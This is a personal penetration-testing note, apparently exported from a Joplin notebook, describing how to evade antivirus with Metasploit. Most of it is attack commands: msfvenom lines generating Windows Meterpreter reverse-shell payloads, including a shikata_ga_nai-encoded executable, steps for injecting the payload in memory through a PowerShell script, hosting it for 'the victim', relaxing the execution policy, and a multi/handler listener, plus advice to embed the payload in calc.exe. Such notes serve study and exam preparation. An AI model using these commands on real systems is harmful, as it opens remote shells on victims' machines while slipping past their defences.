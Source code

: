 MSFVenom

# <ins>Use In-memory Virtual Allocation and execute payload within the allocated memory</ins>

This is non-detectable by the AV; Uses the in-memory injection

- Find the code in /root/Avevade.ps1
    
- Generate the payload:
    
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
- Paste the payload into the variable 'sc' inside 'Avevade.ps1'
    
- Transfer the file to the victim -
    
    - python2 -m SimpleHTTPServer 80
- Set the execution policy to unrestricted:
    
    - Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
- On Kali, open handler (See below)
    

## <ins>Use the Meterpreter Listener</ins>

Open the metasploit console and use multihandler

> msfconsole
> 
> use multi/handler

Set the payload to what you want, and set the options

> set payload windows/meterpreter/reverse_tcp
> 
> set LPORT 7777
> 
> set LHOST &lt;Kali IP&gt;
> 
> exploit OR run

# Do Encrypted Payload

Usual encoding is x86/shikata\_ga\_nai - very common till AV can detect

> ```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
> ```

Embed in a non-malicious file, like calc.exe (can use notepad.exe in windows-binaries)

id: f1cbbe07c0c44adb91ce6010b852b46f
parent_id: c26fa1723bb34bf18d91cd4b533bf7b3
created_time: 2022-01-20T02:10:21.303Z
updated_time: 2022-08-17T14:29:19.342Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T02:10:21.303Z
user_updated_time: 2022-08-17T14:29:19.342Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1